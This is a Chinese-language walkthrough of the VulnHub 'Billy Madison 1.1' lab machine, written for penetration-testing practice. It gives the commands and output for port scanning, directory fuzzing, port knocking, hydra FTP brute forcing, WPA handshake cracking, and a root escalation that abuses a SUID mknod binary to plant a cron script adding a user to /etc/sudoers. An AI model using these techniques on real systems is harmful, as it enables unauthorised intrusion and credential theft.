








# BILLY MADISON 1.1

> https://download.vulnhub.com/billymadison/BillyMadison1dot1.zip

靶场IP：`192.168.32.170`



扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p1-65535 192.168.32.170                                                                                1 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 03:26 EDT
Nmap scan report for 192.168.32.170
Host is up (0.00031s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
23/tcp   open   telnet
69/tcp   open   tftp
80/tcp   open   http
137/tcp  closed netbios-ns
138/tcp  closed netbios-dgm
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
2525/tcp open   ms-v-worlds
MAC Address: 00:0C:29:77:80:08 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 105.08 seconds
```

测试smb

```
┌──(root💀kali)-[/tmp]
└─# smbclient -L  192.168.32.170
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        EricsSecretStuff Disk      
        IPC$            IPC       IPC Service (BM)
SMB1 disabled -- no workgroup available
```

建立共享`EricsSecretStuff`目录

```
┌──(root💀kali)-[/tmp]
└─# smbclient //192.168.32.170/EricsSecretStuff  
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 14 22:29:47 2022
  ..                                  D        0  Sat Aug 20 14:56:45 2016
  ._.DS_Store                        AH     4096  Wed Aug 17 10:32:07 2016
  ebd.txt                             N       35  Thu Jul 14 22:29:47 2022
  .DS_Store                          AH     6148  Wed Aug 17 10:32:12 2016

                30291996 blocks of size 1024. 25917156 blocks available
smb: \> get ebd.txt
getting file \ebd.txt of size 35 as ebd.txt (34.2 KiloBytes/sec) (average 34.2 KiloBytes/sec)
smb: \> 
```

查看`ebd.txt`文件

```
┌──(root💀kali)-[/tmp]
└─# cat ebd.txt         
Erics backdoor is currently CLOSED
```

访问23端口

```
┌──(root💀kali)-[/tmp]
└─# nc 192.168.32.170 23                                                                                       


***** HAHAH! You're banned for a while, Billy Boy!  By the way, I caught you trying to hack my wifi - but the joke's on you! I don't use ROTten passwords like rkfpuzrahngvat anymore! Madison Hotels is as good as MINE!!!! *****
```

> 哈哈哈！你被禁止了一段时间，比利男孩！顺便说一句，我发现你试图破解我的无线网络 - 但笑话在你身上！我不再使用像 rkfpuzrahngvat 这样的 ROTten 密码了！麦迪逊酒店和我的一样好！！！！

根据提示，rkfpuzrahngvat是ROTten加密

```
┌──(root💀kali)-[/tmp]
└─# echo rkfpuzrahngvat | tr a-z n-za-m
exschmenuating
```

访问80端口



后缀加上`exschmenuating`



根据提示

```
OMg LOL LOL LOL!!! What a twit - I can't believe she fell for it!! I .captured the whole thing in this folder for later lulz. I put "veronica" somewhere in the file name because I bet you a million dollars she uses her name as part of her passwords - if that's true, she rocks! Anyway, malware installation successful. I'm now in complete control of Bill's machine! 
```

找到`veronica`单词的文件名，需要爆破

```
┌──(root💀kali)-[/tmp]
└─# grep 'veronica' /usr/share/wordlists/rockyou.txt > dict                                                    127 ⨯
                                                                                                                     
┌──(root💀kali)-[/tmp]
└─# wfuzz -c --hc=404 -z file,dict http://192.168.32.170/exschmenuating/FUZZ.cap
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.32.170/exschmenuating/FUZZ.cap
Total requests: 773

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000000772:   200        24 L     162 W      1080 Ch     "#0104veronica"                                     
000000766:   200        192 L    800 W      8528 Ch     "012987veronica"                                    
000000571:   400        10 L     35 W       306 Ch      "veronica$%"                                        

Total time: 0.638908
Processed Requests: 773
Filtered Requests: 770
Requests/sec.: 1209.876
```

数据包链接：

```
http://192.168.32.170/exschmenuating/012987veronica.cap
```

分析数据包有几封邮件

```
EHLO kali
MAIL FROM:<eric@madisonhotels.com>
RCPT TO:<vvaughn@polyfector.edu>
DATA
Date: Sat, 20 Aug 2016 21:56:50 -0500
To: vvaughn@polyfector.edu
From: eric@madisonhotels.com
Subject: VIRUS ALERT!
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/

Hey Veronica, 

Eric Gordon here.  

I know you use Billy's machine more than he does, so I wanted to let you know that the company is rolling out a new antivirus program for all work-from-home users.  Just <a href="http://areallyreallybad.malware.edu.org.ru/f3fs0azjf.php">click here</a> to install it, k?  

Thanks. -Eric


.
QUIT
```

```
EHLO kali
MAIL FROM:<vvaughn@polyfector.edu>
RCPT TO:<eric@madisonhotels.com>
DATA
Date: Sat, 20 Aug 2016 21:57:00 -0500
To: eric@madisonhotels.com
From: vvaughn@polyfector.edu
Subject: test Sat, 20 Aug 2016 21:57:00 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
RE: VIRUS ALERT!

Eric,

Thanks for your message. I tried to download that file but my antivirus blocked it.

Could you just upload it directly to us via FTP?  We keep FTP turned off unless someone connects with the "Spanish Armada" combo.

https://www.youtube.com/watch?v=z5YU7JwVy7s

-VV


.
QUIT
```

```
EHLO kali
MAIL FROM:<eric@madisonhotels.com>
RCPT TO:<vvaughn@polyfector.edu>
DATA
Date: Sat, 20 Aug 2016 21:57:11 -0500
To: vvaughn@polyfector.edu
From: eric@madisonhotels.com
Subject: test Sat, 20 Aug 2016 21:57:11 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
RE[2]: VIRUS ALERT!

Veronica,

Thanks that will be perfect.  Please set me up an account with username of "eric" and password "ericdoesntdrinkhisownpee."

-Eric


.
QUIT
```

```
EHLO kali
MAIL FROM:<vvaughn@polyfector.edu>
RCPT TO:<eric@madisonhotels.com>
DATA
Date: Sat, 20 Aug 2016 21:57:21 -0500
To: eric@madisonhotels.com
From: vvaughn@polyfector.edu
Subject: test Sat, 20 Aug 2016 21:57:21 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
RE[3]: VIRUS ALERT!

Eric,

Done.

-V


.
QUIT
```

```
EHLO kali
MAIL FROM:<eric@madisonhotels.com>
RCPT TO:<vvaughn@polyfector.edu>
DATA
Date: Sat, 20 Aug 2016 21:57:31 -0500
To: vvaughn@polyfector.edu
From: eric@madisonhotels.com
Subject: test Sat, 20 Aug 2016 21:57:31 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
RE[4]: VIRUS ALERT!

Veronica,

Great, the file is uploaded to the FTP server, please go to a terminal and run the file with your account - the install will be automatic and you won't get any pop-ups or anything like that.  Thanks!

-Eric


.
QUIT
```

```
EHLO kali
MAIL FROM:<vvaughn@polyfector.edu>
RCPT TO:<eric@madisonhotels.com>
DATA
Date: Sat, 20 Aug 2016 21:57:41 -0500
To: eric@madisonhotels.com
From: vvaughn@polyfector.edu
Subject: test Sat, 20 Aug 2016 21:57:41 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
RE[5]: VIRUS ALERT!

Eric,

I clicked the link and now this computer is acting really weird.  The antivirus program is popping up alerts, my mouse started to move on its own, my background changed color and other weird stuff.  I'm going to send this email to you and then shut the computer down.  I have some important files I'm worried about, and Billy's working on his big 12th grade final.  I don't want anything to happen to that!

-V


.
QUIT
```

邮件中发现：https://www.youtube.com/watch?v=z5YU7JwVy7s 默认情况下FTP是关闭的，需要旁敲端口将其激活，通过查看Youtube视频，得到了端口敲门顺序：`1466 67 1469 1514 1981 1986`

```
┌──(root💀kali)-[/tmp]
└─# knock 192.168.32.170 1466 67 1469 1514 1981 1986
                                                                                                                     
┌──(root💀kali)-[/tmp]
└─# nmap -p21 192.168.32.170                        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 23:11 EDT
Nmap scan report for 192.168.32.170
Host is up (0.00027s latency).

PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 00:0C:29:77:80:08 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

> ```
> #!/usr/bin/python
> # Import scapy
> from scapy.all import *
> conf.verb = 0
> ports = [1466, 67, 1469, 1514, 1981, 1986]
> target = "10.0.2.46"
> # Knock on every port
> for dport in range(0, len(ports)):
> print "[*] Knocking on ", target, ports[dport]
> ip = IP(dst=target)
> SYN = ip/TCP(dport=ports[dport], flags="S", window=2048, options=[('MSS',1460)], seq=0)
> send(SYN) ; print "*KNOCK*"
> #Connect to the now open FTP port
> print "[*] Connecting to FTP"
> subprocess.call("ftp 10.0.2.46", shell=True)
> ```
>
> ```
> ┌──(root💀kali)-[/tmp]
> └─# for x in 1466 67 1469 1514 1981 1986; do nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.32.170; done
> ```
>
> 另外两种端口敲门方式

使用邮件的账号密码登录FTP服务器

```
eric:ericdoesntdrinkhisownpee
```



```
┌──(root💀kali)-[/tmp]
└─# cat .notes  
Ugh, this is frustrating.  

I managed to make a system account for myself. I also managed to hide Billy's paper
where he'll never find it.  However, now I can't find it either :-(. 
To make matters worse, my privesc exploits aren't working.  
One sort of worked, but I think I have it installed all backwards.

If I'm going to maintain total control of Billy's miserable life (or what's left of it) 
I need to root the box and find that paper!

Fortunately, my SSH backdoor into the system IS working.  
All I need to do is send an email that includes
the text: "My kid will be a ________ _________"

Hint: https://www.youtube.com/watch?v=6u7RsW5SAgs

The new secret port will be open and then I can login from there with my wifi password, which I'm
sure Billy or Veronica know.  I didn't see it in Billy's FTP folders, but didn't have time to
check Veronica's.

-EG
```

继续……所以显然目标上有一个后门。我们可以通过发送带有特定短语的电子邮件来启用后门。观看链接的 YouTube 视频后，我认为这句话是`My kid will be a soccer player`. 我发送一封电子邮件，其中包含使用`swaks`.

```
┌──(root💀kali)-[/opt]
└─# swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 192.168.32.170:2525 --body "My kid will be a soccer player" --header "Subject: My kid will be a soccer player"
=== Trying 192.168.32.170:2525...
=== Connected to 192.168.32.170.
<-  220 BM ESMTP SubEthaSMTP null
 -> EHLO kali
<-  250-BM
<-  250-8BITMIME
<-  250-AUTH LOGIN
<-  250 Ok
 -> MAIL FROM:<vvaughn@polyfector.edu>
<-  250 Ok
 -> RCPT TO:<eric@madisonhotels.com>
<-  250 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Fri, 15 Jul 2022 02:19:12 -0400
 -> To: eric@madisonhotels.com
 -> From: vvaughn@polyfector.edu
 -> Subject: My kid will be a soccer player
 -> Message-Id: <20220715021912.003478@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> My kid will be a soccer player
 -> 
 -> 
 -> .
<-  250 Ok
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

> 又或者这样
>
> ```
> #!/usr/bin/python
> 
> import smtplib
> 
> server = smtplib.SMTP('10.0.2.46', 2525)
> fromaddr = "eric@madisonhotels.com"
> toaddr = "vvaughn@polyfector.edu"
> msg = "My kid will be a soccer player"
> server.sendmail(fromaddr, toaddr, msg)
> server.quit()
> ```

然后我执行另一次`nmap`扫描。果然，我们发现一个新的端口打开了。



现在我需要密码。回到之前的电子邮件线索，我记得 Veronica "Rocks"，而且她可能在密码中使用了她的名字。有了这些信息，我从 rockyou 创建了一个包含单词"veronica"的单词表。

```
┌──(root💀kali)-[/tmp]
└─# hydra -l veronica -P dict ftp://192.168.32.170     
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-15 02:28:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 773 login tries (l:1/p:773), ~49 tries per task
[DATA] attacking ftp://192.168.32.170:21/
[21][ftp] host: 192.168.32.170   login: veronica   password: babygirl_veronica07@yahoo.com
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-15 02:28:41
```

登录FTP服务器

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.170                                                                                         255 ⨯
Connected to 192.168.32.170.
220 Welcome to ColoradoFTP - the open source FTP server (www.coldcore.com)
Name (192.168.32.170:root): veronica
331 User name okay, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
ftp> dir
200 PORT command successful.
150 Opening A mode data connection for /.
-rwxrwxrwx 1 ftp 719128 Aug 17 12:16 eg-01.cap
-rwxrwxrwx 1 ftp 595 Aug 20 12:55 email-from-billy.eml
226 Transfer completed.
ftp> bin
200 Type set to I
ftp> get eg-01.cap
local: eg-01.cap remote: eg-01.cap
200 PORT command successful.
150 Opening I mode data connection for eg-01.cap.
226 Transfer completed for "eg-01.cap".
719128 bytes received in 0.74 secs (948.2698 kB/s)
ftp> get email-from-billy.eml
local: email-from-billy.eml remote: email-from-billy.eml
200 PORT command successful.
150 Opening A mode data connection for email-from-billy.eml.
226 Transfer completed for "email-from-billy.eml".
616 bytes received in 0.46 secs (1.3217 kB/s)
```

> 可能你使用的传输模式是ASCII，这个模式只能用于传输文字文件。
>
> 可以尝试切换成二进制模式获取文件试一下。
>
> ```
> ftp> bin
> ```
>
> 在我使用get命令获取zip文件时发现了这个问题总是缺少几k从而倒是压缩包不完整解压失败，使用bin模式就好起来了。
>
> 

查看邮件信息

```
┌──(root💀kali)-[/tmp]
└─# cat email-from-billy.eml 
        Sat, 20 Aug 2016 12:55:45 -0500 (CDT)
Date: Sat, 20 Aug 2016 12:55:40 -0500
To: vvaughn@polyfector.edu
From: billy@madisonhotels.com
Subject: test Sat, 20 Aug 2016 12:55:40 -0500
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
Eric's wifi

Hey VV,

It's your boy Billy here.  Sorry to leave in the middle of the night but I wanted to crack Eric's wireless and then mess with him.
I wasn't completely successful yet, but at least I got a start.

I didn't walk away without doing my signature move, though.  I left a flaming bag of dog poo on his doorstep. :-)

Kisses,

Billy

```

该电子邮件为我们提供了有关数据包捕获和 ssh 密码的线索，数据包捕获包含破解 WPA/WPA2 密码所需的 4 次握手。这可以通过 aircrack-ng 或 hashcat 来完成。

aircrack-ng爆破密码

```
┌──(root💀kali)-[/tmp]
└─# aircrack-ng  eg-01.cap -w /usr/share/wordlists/rockyou.txt
```





> hashcat爆破
>
> ```
> aircrack-ng eg-01.cap -J eg-01-hc.cap  
> hashcat -m 2500 eg-01-hc.cap.hccap /usr/share/wordlists/rockyou.txt -w 4
> ```

找到密码是`triscuit*`，登录SSH

```
┌──(root💀kali)-[/tmp]
└─# ssh eric@192.168.32.170 -p 1974                                                                            
The authenticity of host '[192.168.32.170]:1974 ([192.168.32.170]:1974)' can't be established.
ECDSA key fingerprint is SHA256:Iz1zMYr38vrfL6+fiW0fdOAxC2ymMj/um0B6LxPAOLM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.32.170]:1974' (ECDSA) to the list of known hosts.
eric@192.168.32.170's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

37 packages can be updated.
0 updates are security updates.


Last login: Sat Aug 20 22:28:28 2016 from 192.168.3.101
eric@BM:~$ 
```

让我们看看我们在`eric's`主目录中有什么可用的。

```
eric@BM:~$ ls -al
total 532
drwxr-xr-x 3 eric eric   4096 Aug 23  2016 .
drwxr-xr-x 6 root root   4096 Aug 20  2016 ..
-rw-r--r-- 1 eric eric    220 Aug 20  2016 .bash_logout
-rw-r--r-- 1 eric eric   3771 Aug 20  2016 .bashrc
drwx------ 2 eric eric   4096 Aug 20  2016 .cache
-rw-r--r-- 1 root root 451085 Aug  7  2016 eric-tongue-animated.gif
-rw-r--r-- 1 root root  60710 Aug  7  2016 eric-unimpressed.jpg
-rw-r--r-- 1 eric eric    655 Aug 20  2016 .profile
-rw-r--r-- 1 root root    115 Aug 20  2016 why-1974.txt
eric@BM:~$ cat why-1974.txt 
Why 1974?  Because: http://www.metacafe.com/watch/an-VB9KuJtnh4bn/billy_madison_1995_billy_hangs_out_with_friends/
```

我检查了两张图片，但没有任何有趣的东西出来。

是时候尝试提升了。

经过一番挖掘，并根据之前的发现，它看起来`eric`最初使用了许多漏洞利用之一来提升到`root`. 这些漏洞似乎都不再起作用，但是`suid`发现了一个有趣的文件。

```
eric@BM:~$ find / -user root -perm -4000 -ls 2>/dev/null
  1454477    368 -r-sr-s---   1 root     eric       372922 Aug 20  2016 /usr/local/share/sgml/donpcgd
  1048829    136 -rwsr-xr-x   1 root     root       136808 May  4  2016 /usr/bin/sudo
  1058216     24 -rwsr-xr-x   1 root     root        23376 Jan 17  2016 /usr/bin/pkexec
  1048745     56 -rwsr-xr-x   1 root     root        54256 Mar 29  2016 /usr/bin/passwd
  1057557     36 -rwsr-xr-x   1 root     root        32944 Mar 29  2016 /usr/bin/newgidmap
  1048609     40 -rwsr-xr-x   1 root     root        40432 Mar 29  2016 /usr/bin/chsh
  1048670     76 -rwsr-xr-x   1 root     root        75304 Mar 29  2016 /usr/bin/gpasswd
  1057558     36 -rwsr-xr-x   1 root     root        32944 Mar 29  2016 /usr/bin/newuidmap
  1048734     40 -rwsr-xr-x   1 root     root        39904 Mar 29  2016 /usr/bin/newgrp
  1048607     52 -rwsr-xr-x   1 root     root        49584 Mar 29  2016 /usr/bin/chfn
  1058246     24 -rwsr-xr-x   1 root     root        23288 Apr 29  2016 /usr/bin/ubuntu-core-launcher
  1048930     12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
  1057498     40 -rwsr-xr-x   1 root     root        38984 Jun 30  2016 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  1318420     16 -rwsr-xr-x   1 root     root        14864 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
  1066069    420 -rwsr-xr-x   1 root     root       428240 Aug 11  2016 /usr/lib/openssh/ssh-keysign
  1056767     44 -rwsr-xr--   1 root     messagebus    42992 Apr  1  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1179709     40 -rwsr-xr-x   1 root     root          40152 May 26  2016 /bin/mount
  1179740     40 -rwsr-xr-x   1 root     root          40128 Mar 29  2016 /bin/su
  1179758     28 -rwsr-xr-x   1 root     root          27608 May 26  2016 /bin/umount
  1190647     32 -rwsr-xr-x   1 root     root          30800 Mar 11  2016 /bin/fusermount
  1179724     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
  1179723     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
  1190681    140 -rwsr-xr-x   1 root     root         142032 Feb 17  2016 /bin/ntfs-3g
```

如果我们提供两个路径，则会在第二个路径创建一个文件，该路径可由`eric`. 我们可以在_任何_位置创建文件，如下所示。

```js
eric@BM:~$ /usr/local/share/sgml/donpcgd /dev/null /etc/testing
#### mknod(/etc/testing,21b6,103)
eric@BM:~$ ls -lah /etc/testing
crw-rw-rw- 1 root root 1, 3 Sep 15 10:22 /etc/testing
```

我试图通过创建一个`cron.hourly`条目来利用这一点，该条目会将`eric`用户添加为`sudoer`.

```js
eric@BM:~$ touch /tmp/test
eric@BM:~$ /usr/local/share/sgml/donpcgd /tmp/test /etc/cron.hourly/test
#### mknod(/etc/cron.hourly/test,81b4,0)
eric@BM:~$ echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /etc/cron.hourly/test
eric@BM:~$ chmod +x /etc/cron.hourly/test
eric@BM:~$ cat /etc/cron.hourly/test
#!/bin/bash
echo "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

现在，我等一个小时左右后，我检查一下是否可以`sudo`。

```js
eric@BM:~$ sudo su
root@BM:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@BM:/home/eric#
```
